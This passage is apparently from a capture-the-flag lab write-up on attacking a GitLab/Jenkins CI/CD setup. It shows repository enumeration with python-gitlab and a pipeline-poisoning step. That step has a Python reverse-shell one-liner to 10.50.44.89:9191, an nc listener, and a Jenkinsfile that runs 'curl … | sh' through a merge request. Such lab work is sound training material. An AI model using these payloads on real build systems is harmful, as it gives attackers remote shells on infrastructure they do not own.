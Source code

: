 ```python
        print ("Error with this download")
        print (e)
        pass
```

---

## Enumeration

1. Install Dependencies
    ```sh
    pip3 install python-gitlab==3.15.0
    ```
2. Make Access Token with user already created
3. Replace in code above
4. Run and Get **ZIP Directories**
5. **Extract** and Look For **Flags**

---

## Build Proccess

0. `ip a` get `cicd` local ip! 😉
1. Fork (http://gitlab.tryhackme.loc/ash/Merge-Test)
2. Create `shell.sh` file
    ```sh
    /usr/bin/python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.50.44.89",9191)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
    ```
3. Run on local: `python3 -m http.server 9090`
4. Run on local: `nc -lnvp 9191`

---

5. Edit `jenkinsfile`
```
pipeline {
    agent any
    stages {
        stage('build') {
            steps {
                sh '''
                    curl http://10.50.44.89:9090/shell.sh | sh
                '''                 
            }             
        }
    }       
}
```
6. Send Merge Request

---